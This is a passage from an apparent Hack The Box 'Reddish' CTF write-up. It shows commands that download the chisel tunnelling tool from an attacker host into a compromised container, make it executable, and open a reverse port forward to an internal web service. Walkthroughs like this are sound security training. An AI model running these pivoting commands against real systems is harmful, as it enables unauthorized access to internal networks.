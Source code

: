 To investigate more about the open ports on the other hosts, chisel is downloaded into the nodered container using the `__curl` function.

```bash
root@nodered:/tmp/workspace_nodered_container## __curl http://10.10.14.26/Pivoting/Linux/chisel_1.7.3_linux_amd64 > chisel
```

On the nodered container set the execution bit for chisel

```bash
chmod +x chisel
./chisel
```

Steps for using chisel for remote port forwarding
1. start a chisel server on the attacker machine.


```bash
./chisel_1.7.3_linux_amd64 server --reverse -p 1234
```

2. on the victim machine define the host and port to be forwarded


```bash
./chisel client 10.10.14.26:1234 R:81:172.19.0.2:80
```

> This means that the port 80 of 172.19.0.2 will be the port 81 of port 10.10.14.26, the decision to use the port 81 is because the port 80 was occupied by "python3 -m http.server" and port 8080 by "burpsuite", always be sure to use a port that is not occupied by another application.

Now that the port 80 of 172.19.0.2 is the port 81 it is possible to access the application through localhost:81 or 127.0.0.1:81

![port 81 forward](/img/htb/reddish/port81forward.png)

The source code found by inspecting the site using google chrome inspect element functionality shows that the site has a function that every time someone visits the index the number of "hits" increase, it also shows notes of backing up a database.
